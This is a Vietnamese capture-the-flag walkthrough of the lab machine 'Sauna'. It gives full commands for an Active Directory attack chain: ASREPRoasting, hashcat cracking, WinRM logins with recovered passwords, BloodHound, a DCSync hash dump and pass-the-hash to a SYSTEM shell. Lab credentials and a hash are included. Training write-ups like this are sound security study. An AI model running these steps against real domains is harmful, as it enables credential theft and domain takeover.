


# Sauna

## Synopsis

Sauna là một machine Windows dễ sử dụng có thể enum và exploit Active Directory. Có thể lấy username từ tên đầy đủ của nhân viên được liệt kê trên trang web. Với những username này, có thể thực hiện một cuộc tấn công ASREPRoasting, tạo ra hash cho một tài khoản không yêu cầu pre-authen Kerberos. Hash này có thể bị tấn công bằng cách brute-force offline để khôi phục mật khẩu dạng plaintext cho người dùng có thể WinRM vào box. Chạy WinPEAS sẽ tiết lộ rằng một người dùng hệ thống khác đã được định cấu hình để tự động đăng nhập và nó xác định mật khẩu của họ. Người dùng thứ hai này cũng có quyền remote management của Windows. BloodHound tiết lộ rằng người dùng này có quyền mở rộng `DS-Replication-Get-Changes-All`, cho phép họ dump hash password từ Domain Controller trong tấn công DCSync. Thực hiện cuộc tấn công này sẽ trả về hash của administrator domain chính, có thể được sử dụng với psexec.py của Impacket để có được một shell trên box dưới dạng `NT_AUTHORITY\SYSTEM`.

### Skill required

- Kiến thức cơ bản về Windows

- Kiến thức cơ bản về Active Directory

### Skill learned

- Tấn công ASREPRoasting

- Tấn công DCSync

## Enumeration

### Nmap

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.175 | grep ^[0-9] | cut -d '/' -f
1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.10.175
```


Nmap output cho thấy đây là domain controller cho miền `egotistical-bank.local`. Internet Information Services (IIS) và LDAP đang chạy trên các cổng mặc định tương ứng của chúng (80 và 389) và có thể được enum thêm.

### LDAP

Khi liệt kê LDAP bằng `windapsearch`, quan sát thấy các anonymous bind được phép. Tuy nhiên, điều này không trả về bất kỳ object domain nào.

```
./windapsearch.py -d egotistical-bank.local --dc-ip 10.10.10.175 -U
```


Có thể thử sử dụng `GetADUsers.py` của Impacket, nhưng cách này cũng không trả về bất kỳ thông tin hữu ích nào.

```
GetADUsers.py egotistical-bank.local/ -dc-ip 10.10.10.175 -debug
```


### SMB

Tiện ích `smbclient` có thể được sử dụng để liệt kê các share. Đăng nhập anonymous thành công nhưng không có share nào được trả về.


Tiến hành kiểm tra trang web.

### Web

Điều hướng đến trang web trong browser sẽ hiển thị trang web của một bank. Tiện ích bổ sung Wappalyzer không xác định bất kỳ công nghệ dễ bị tấn công nào.


Quét trang web bằng ffuf sẽ thấy một số file và folder phổ biến, nhưng không có file nào nổi bật và thú vị.

```
./ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.175/FUZZ
```



Khi điều hướng đến `about.html` và scroll xuống, thấy một phần chứa tên đầy đủ của một số nhân viên Bank.


## Foothold

Có thể sử dụng một công cụ như `Username Anarchy` (https://github.com/urbanadventurer/username-anarchy) để tạo các hoán vị tên người dùng chung dựa trên tên đầy đủ. Sau khi lưu tên đầy đủ vào file text, chạy script.

```
./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt
```



Với danh sách username phổ biến, có thể xem liệu pre-authen Kerberos có bị vô hiệu hóa đối với bất kỳ username nào hay chưa. Pre-authen Kerberos là một tính năng bảo mật cung cấp khả năng bảo vệ chống lại các cuộc tấn công password-guessing. Trong một số trường hợp, các ứng dụng yêu cầu phải bật cài đặt này cho tài khoản dịch vụ của chúng (ví dụ: Alfresco). Khi pre-authen không được thực thi, người ta có thể trực tiếp gửi request authen giả. Key Distribution Center (KDC) của Domain Controller sẽ kiểm tra authentication service request (AS-REQ), xác minh thông tin user và trả về Ticket Frating Ticket (TGT) đã mã hóa. TGT chứa tài liệu (timestamp) được encrypt bằng hash NTLM của account tương ứng. Có thể lấy một hash từ đây, tấn công bằng brute-force offline để tiết lộ password dạng plaintext.

Sử dụng GetNPUser của Impacket, có thể thử tấn công ASREPRoasting để trích xuất một hàm hash từ các tài khoản người dùng không yêu cầu pre-authen. Một lệnh bash đơn giản có thể được sử dụng để thực hiện cuộc tấn công này và lặp lại qua các username trong `unames.txt`.

```
while read p; do GetNPUsers.py egotistical-bank.local/"$p" -request -no-pass -
dc-ip 10.10.10.175 >> hash.txt; done < unames.txt
```


`GetNPUsers.py` trả về giá trị hash cho user `fsmith`.

### Hashcat

`hashcat` có thể được sử dụng để brute force password. Có thể lưu hash vào một file và xác định hash mode chính xác cho ASREPRoasting.

```
hashcat --help | grep Kerberos
```


Chọn `Kerberos 5 AS-REP etype 23`, mode `18200`. Tiếp theo, chạy hashcat chỉ định mode này và wordlist `rockyou.txt`.

```
hashcat -m 18200 hash.txt -o pass.txt /usr/share/wordlists/rockyou.txt --force
```


Sau vài giây, password sẽ được tìm thấy.


### WinRM

Với thông tin xác thực `fsmith / Thestrokes23` đã đạt được, có thể thử đăng nhập bằng WinRM (cổng 5985). Windows Remote Management (WinRM), là giao thức quản lý từ xa tích hợp sẵn của Windows và thường được bật cho người dùng cần quản lý hệ thống từ xa. Có thể sử dụng evil-winrm để kết nối với hệ thống từ xa.


User flag nằm ở `C:\Users\Fsmith\Desktop\`.

## Privele Escalation

Sau khi đã có foothold trên machine, có thể sử dụng một script như WinPEAS để tự động hóa các tác vụ enum. Sử dụng command `upload` từ session WinRM hiện tại để chuyển file binary đến máy chủ từ xa, sau đó chạy nó.


Script cho thấy người dùng `EGOTISTICALBANK\svc_loanmanager` đã được thiết lập để tự động đăng nhập và tài khoản này có mật khẩu là `Moneymakestheworldgoround!`. Kiểm tra `C:\Users\` xác nhận rằng `svc_loanmgr` có tên tương tự đã đăng nhập cục bộ.


Lệnh `net user svc_loanmgr` cho thấy user này cũng là một phần của group `Remote Management Users`. Sử dụng `evil-winrm` một lần nữa để đăng nhập với tư cách là user này.

```
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```


### Bloodhound

Có thể sử dụng Bloodhound để enum và trực quan hóa domain Active Directory, và xác định các attack chain có thể cho phép nâng cao đặc quyền domain. `Bloodhound-python` ingestor có thể được sử dụng để thu thập dữ liệu từ xa từ Active Directory. Sau đó, có thể chạy `bloodhound` để trực quan hóa bất kỳ đường dẫn tấn công nào có sẵn.

```
sudo apt install bloodhound
sudo pip install bloodhound-python
bloodhound-python -u svc_loanmgr -p Moneymakestheworldgoround! -d EGOTISTICAL-BANK.LOCAL -ns 10.10.10.175 -c All
```


Khởi động máy chủ `neo4j`.

```
neo4j console
```

Sau đó nhập `bloodhound` để truy cập BloodHound UI. Khi `bloodhound-python` hoàn tất, nén các file thành file zip và tải lên.

```
zip info.zip *.json
```

Dữ liệu BloodHound bao gồm các Node đại diện cho các principal và các object khác trong Active Directory, và Edge, là các liên kết đại diện cho một số dạng kiểm soát hoặc đặc quyền object-to-object. Trên tab `Queries`, click vào `Find Principals with DCSync Rights`. Lưu ý rằng node `SVC_LOANMGR@EGOTISTICAL-BANK.LOCAL` được kết nối với node `EGOTISTICAL-BANK.LOCAL`, thông qua edge `GetChangesAll`.


Sau khi nhấp chuột phải vào edge và click vào `Help`, thấy rằng `svc_loanmgr` có khả năng trích xuất hash password từ Domain Controller bằng cách sử dụng cuộc tấn công DCSync.

### DCSync

secretsdump.py của Impacket có thể được sử dụng để thực hiện cuộc tấn công này.

Script này sẽ tiết lộ các hàm hash NTLM cho tất cả người dùng domain, sử dụng các đặc quyền sao chép. Chạy command bên dưới để dump hash password của administrator domain chính.

```
secretsdump.py egotistical-bank/svc_loanmgr@10.10.10.175 -just-dc-user Administrator
```


Sau khi trích xuất thành công mã hash của administrator, có thể thực hiện cuộc tấn công Pass The Hass bằng cách sử dụng psexec.py của Impacket và mã hash trả về, rồi lấy một shell là SYSTEM.

```
psexec.py egotistical-bank.local/administrator@10.10.10.175 -hashes d9485863c1e9e05851aa40cbb4ab9dff:d9485863c1e9e05851aa40cbb4ab9dff
```


Root flag nằm ở `C:\Users\Administrator\Desktop\`.